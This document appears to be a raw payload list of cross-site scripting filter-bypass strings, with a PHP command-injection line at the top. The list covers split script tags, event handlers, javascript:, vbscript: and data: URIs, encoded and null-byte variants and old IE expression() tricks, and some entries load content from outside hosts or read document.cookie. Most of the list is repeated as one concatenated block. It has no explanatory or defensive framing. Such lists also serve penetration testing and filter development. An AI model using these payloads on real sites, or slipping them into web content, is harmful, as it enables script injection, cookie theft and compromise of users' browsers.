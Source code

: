 ${@print(system("dir"))}





<scr<script>ipt>alert(1)</scr<script>ipt>

<body/onhashchange=alert(1)><a href=#>clickit

<img/src=aaa.jpg onerror=prompt(1);>

<video src=x onerror=prompt(1);> 
<audio src=x onerror=prompt(1);>

<iframesrc="javascript:alert(2)">

<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

<embed/src=//goo.gl/nlX0P>

<form action="Javascript:alert(1)"><input type=submit>

<isindex action="javascript:alert(1)" type=image>

<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>

<isindex action=data:text/html, type=image>

<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript&colon;alert(1)>CLICKME

<table background=javascript:alert(1)></table>

<video poster=javascript:alert(1)//></video>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?

<applet code="javascript:confirm(document.cookie);"> // Firefox Only
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>

<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">

<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<body language=vbsonload=alert-1 // Works with IE8
<command onmouseover ="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command>

<a onmouseover="javascript:window.onerror=alert;throw 1>

<img src=x onerror="javascript:window.onerror=alert;throw 1">

<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';


<img style="xss:expression(alert(0))"> // Works upto IE7.
<div style="color:rgb(''&#0;x:expression(alert(22))"></div> // Works upto IE7.
<style>#test{x:expression(alert(/XSS/))}</style>

<a onmouseover=location=íjavascript:alert(21)>click
<body onfocus="location='javascrpt:alert(12) >123

<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg> // By @secalert
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/> // By Mario
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg> // By @secalert
<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click // By Ashar Javed

<svg><script>alert&#40/1/&#41</script> // Works With All Browsers

<svg><script>alert&#40 1&#41 //

&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;
<a href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a>

javascript&#00058;alert(1)
javaSCRIPT&colon;alert(1)
JaVaScRipT:alert(1)
javas&Tab;cript:\u0061lert(1);
javascript:\u0061lert&#x28;1&#x29
javascript&#x3A;alert&lpar;document&period;cookie&rpar; // AsharJaved

IE

vbscript:alert(1);
vbscript&#00058;alert(1);
vbscr&Tab;ipt:alert(1)"
Data URl
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==


http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80

<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>

<script>alert(1);</script>
<%0ascript>alert(1);</script>
<%0bscript>alert(1);</script>

<// style=x:expression\28write(1)\29> // Works upto IE7

<!--[if]><script>alert(1)</script --> // Works upto IE9

<?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/>

<%div%20style=xss:expression(prompt(1))> // Works Upto IE7


<a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec

<iframesrc='http://www.target.com?foo="xss autofocus/AAAAA onfocus=location=window.name//' name="javascript:alert("XSS")"></iframe>

<scri%00pt>confirm(0);</scri%00pt>
<a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec

<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
<marquee/onstart=confirm(2)>

<table background="javascript:alert(1)"></table>

<isindex action="javas&tab;cript:alert(1)" type=image>
<marquee/onstart=confirm(2)>

//////////////////////////////////////////////////////////////////////////////////////

<scr<script>ipt>alert(1)</scr<script>ipt><body/onhashchange=alert(1)><a href=#>clickit<img/src=aaa.jpg onerror=prompt(1);><video src=x onerror=prompt(1);> <audio src=x onerror=prompt(1);><iframesrc="javascript:alert(2)"><iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg=="><embed/src=//goo.gl/nlX0P><form action="Javascript:alert(1)"><input type=submit><isindex action="javascript:alert(1)" type=image><isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image><isindex action=data:text/html, type=image>
<isindexformaction="javascript:alert(1)" type=image><input type="image" formaction=JaVaScript:alert(0)><form><button formaction=javascript&colon;alert(1)>CLICKME<table background=javascript:alert(1)></table><video poster=javascript:alert(1)//></video><object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="><object/data=//goo.gl/nlX0P?<applet code="javascript:confirm(document.cookie);"> // Firefox Only
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always><svg/onload=prompt(1);><marquee/onstart=confirm(2)>/<body onload=prompt(1);><select autofocus onfocus=alert(1)><textarea autofocus onfocus=alert(1)><keygen autofocus onfocus=alert(1)><video><source onerror="javascript:alert(1)"><marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)><body language=vbsonload=alert-1 // Works with IE8<command onmouseover ="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command><a onmouseover="javascript:window.onerror=alert;throw 1><img src=x onerror="javascript:window.onerror=alert;throw 1"><body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';<img style="xss:expression(alert(0))"> // Works upto IE7.<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // Works upto IE7.<style>#test{x:expression(alert(/XSS/))}</style><a onmouseover=location=íjavascript:alert(1)>click<body onfocus="location='javascrpt:alert(1) >123<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P"><meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/><svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg> // By @secalert<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/> // By Mario<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg> // By @secalert<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click // By Ashar Javed<svg><script>alert&#40/1/&#41</script> // Works With All Browsers<svg><script>alert&#40 1&#41 //&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;<a href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a><scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt><s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t><script>alert(1);</script><%0ascript>alert(1);</script><%0bscript>alert(1);</script><// style=x:expression\28write(1)\29> // Works upto IE7<!--[if]><script>alert(1)</script --> // Works upto IE9<?xml-stylesheet type="text/css"?><root style="x:expression(write(1))"/>
<%div%20style=xss:expression(prompt(1))> // Works Upto IE7<a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec<iframesrc='http://www.target.com?foo="xss autofocus/AAAAA onfocus=location=window.name//' name="javascript:alert("XSS")"></iframe>
<scri%00pt>confirm(0);</scri%00pt><a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>rhainfosec<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image><marquee/onstart=confirm(2)><table background="javascript:alert(1)"></table><isindex action="javas&tab;cript:alert(1)" type=image><marquee/onstart=confirm(2)>




